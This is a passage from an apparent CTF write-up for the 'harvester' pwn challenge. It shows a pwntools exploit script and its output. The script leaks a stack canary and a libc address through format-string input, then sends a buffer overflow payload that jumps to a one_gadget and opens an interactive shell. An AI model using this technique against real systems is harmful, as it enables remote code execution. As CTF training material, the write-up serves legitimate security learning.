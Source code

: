 ```
print(target.recvuntil(b'Your choice is: '))
result = target.recvuntil(b'You are')
canary_string = result.replace(b'\x1b[1;31m\nYou are', b'')
canary_num = int(canary_string, 16)
print('Canary is', hex(canary_num))

canary = p64(canary_num)

#libc leak:
print(target.recvuntil(b'[4] Run'))
target.sendline(b'1')

print(target.recvuntil(b'[4]'))

target.sendline(b'%3$p')

print(target.recvuntil(b'Your choice is: '))
result = target.recvuntil(b'You are')
libc_leak_str = result.replace(b'\n\x1b[1;31m\nYou are', b'')
libc_leak_num = int(libc_leak_str, 16)
nanosleep_libc = libc_leak_num - 20
print('nanosleep_libc', hex(nanosleep_libc))
print(libc.symbols['nanosleep'])

libc_base = nanosleep_libc - libc.symbols['nanosleep']
onegadget = libc_base + onegadget_offset

#Now trigger the increase in pie.
inc_pie(11)

print(target.recvuntil(b'[4] Run'))
target.sendline(b'3')

print(target.recvuntil(b'Do you want to feed it?'))

padding = b'a' * 40 + canary + b'b' * 8
payload = padding

payload += p64(onegadget)

target.sendline(payload)

target.interactive()
```
And the output should look like this:
```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse/harvester$ python3 harvester_payload.py 
[+] Opening connection to 188.166.145.178 on port 31815: Done
[*] '/home/ubuntu/CTF/HTBApocalypse/harvester/harvester'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/ubuntu/CTF/HTBApocalypse/harvester/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;36m\nA wild Harvester appeared \xf0\x9f\x90\xa6\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
```